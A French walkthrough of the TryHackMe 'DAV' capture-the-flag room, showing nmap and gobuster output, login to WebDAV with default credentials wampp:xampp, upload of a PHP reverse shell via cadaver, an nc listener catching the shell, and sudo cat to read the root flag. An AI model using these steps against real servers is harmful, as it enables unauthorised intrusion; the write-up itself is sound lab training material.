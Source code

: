 ```yaml
---
title: DAV (Guatemala CTF)
tags: [TryHackMe, Facile, Linux, Webdav]
style: border
color: thm
comments: false
description: Voilà ce que peut arriver si on conserve les identifiants par défaut
modified: 06/09/2024
---
```

Lien vers l'épreuve : <https://tryhackme.com/room/bsidesgtdav>

![Easy](https://img.shields.io/badge/Difficulté-Facile-Green?logo=tryhackme)

## Sommaire <!-- omit in toc -->

* [1. Reconnaissance](#1-reconnaissance)
* [2. Analyse du site](#2-analyse-du-site)
* [3. Exploitation de Webdav](#3-exploitation-de-webdav)
* [4. Exploration du serveur](#4-exploration-du-serveur)
* [5. Élévation de privilèges](#5-élévation-de-privilèges)

## 1. Reconnaissance

```bash
nmap -T4 -A 10.10.157.86
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-01 15:26 CEST
Nmap scan report for 10.10.157.86
Host is up (0.032s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.06 seconds
```

Le scan {% include dictionary.html word="NMAP" %} indique uniquement un serveur Apache présent sur le port 80.

## 2. Analyse du site

{% include elements/figure.html image="/images/THM/20240901/VirtualBox_Kali Hack_01_09_2024_15_29_16.png" caption="Première connexion" %}

A première vue, il ne s'agit que de la page par défaut que nous pouvons obtenir dès l'installation d'Apache.

Nous lançons un scanner {% include dictionary.html word="gobuster" %} et nous observons une page `webdav` qui nécessite une authentification (Status: 401).

```bash
gobuster dir -u http://10.10.157.86 -w /usr/share/wordlists/dirb/common.txt -x php,html -b "403,404"
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.157.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 11321]
/index.html           (Status: 200) [Size: 11321]
/webdav               (Status: 401) [Size: 459]
Progress: 13842 / 13845 (99.98%)
===============================================================
Finished
===============================================================
```

A la recherche d'identifiants par défaut sur Google, nous arrivons sur ce [blog](https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html) indiquant `wampp:xampp`. Le test est concluant, nous avons accès à l'outil avec ces identifiants.

{% include elements/figure.html image="/images/THM/20240901/Capture_ecran_2024-09-01_webdav.png" caption="Accès à Webdav" %}

## 3. Exploitation de Webdav

En parcourant le site [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav#cadaver), nous avons connaissance de l'outil `cadaver` permettant de téléverser des fichiers sur Webdav. Nous tenterons d'ajouter le {% include dictionary.html word="reverse-shell" %} {% include dictionary.html word="PHP" %} mis à disposition sur le [Github de pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell).

Nous avons pu téléverser notre {% include dictionary.html word="reverse-shell" %}.

```bash
cadaver http://10.10.157.86/webdav
Authentication required for webdav on server `10.10.157.86':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
dav:/webdav/> put php-reverse-shell.php 
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5492 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 26  2019
        php-reverse-shell.php               5492  Sep  1 16:05
```

Nous préparons un terminal en écoute sur le port indiqué dans le fichier {% include dictionary.html word="PHP" %}, puis nous cliquons sur le lien qui est apparu dans le répertoire Webdav.

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.9.1.218] from (UNKNOWN) [10.10.157.86] 45450
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 07:09:19 up 45 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

La manipulation a fonctionné. Nous avons un accès à la machine.

## 4. Exploration du serveur

Nous commençons par améliorer le reverse shell obtenu afin de simplifier la navigation.

{% gist ab3c791e25baa7b437d0324f6d3195af %}

Nous constatons que le user `www-data` a accès aux répertoires des utilisateurs "merlin" et "wampp"

```bash
ls -hAl /home
total 8.0K
drwxr-xr-x 4 merlin merlin 4.0K Aug 25  2019 merlin
drwxr-xr-x 2 wampp  wampp  4.0K Aug 25  2019 wampp
```

Le répertoire de merlin contient le flag utilisateur, et celui-ci est lisible par tout le monde.

```bash
cd /home/merlin

ls -hAl
total 36K
-rw------- 1 merlin merlin 2.4K Aug 25  2019 .bash_history
-rw-r--r-- 1 merlin merlin  220 Aug 25  2019 .bash_logout
-rw-r--r-- 1 merlin merlin 3.7K Aug 25  2019 .bashrc
drwx------ 2 merlin merlin 4.0K Aug 25  2019 .cache
-rw------- 1 merlin merlin   68 Aug 25  2019 .lesshst
drwxrwxr-x 2 merlin merlin 4.0K Aug 25  2019 .nano
-rw-r--r-- 1 merlin merlin  655 Aug 25  2019 .profile
-rw-r--r-- 1 merlin merlin    0 Aug 25  2019 .sudo_as_admin_successful
-rw-r--r-- 1 root   root    183 Aug 25  2019 .wget-hsts
-rw-rw-r-- 1 merlin merlin   33 Aug 25  2019 user.txt

cat user.txt
449b40[...expurgé...]d66d2a
```

## 5. Élévation de privilèges

Nous recherchons à présent le moyen d'obtenir les droits root sur la machine.

En vérifiant les droits {% include dictionary.html word="sudo" %} de l'utilisateur www-data, nous constatons qu'il est habilité à utiliser la commande `/bin/cat` sans mot de passe.

```bash
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

Nous avons donc la possibilité de lire le contenu du flag root.

```bash
sudo /bin/cat /root/root.txt
101101[...expurgé...]f7afa5
```
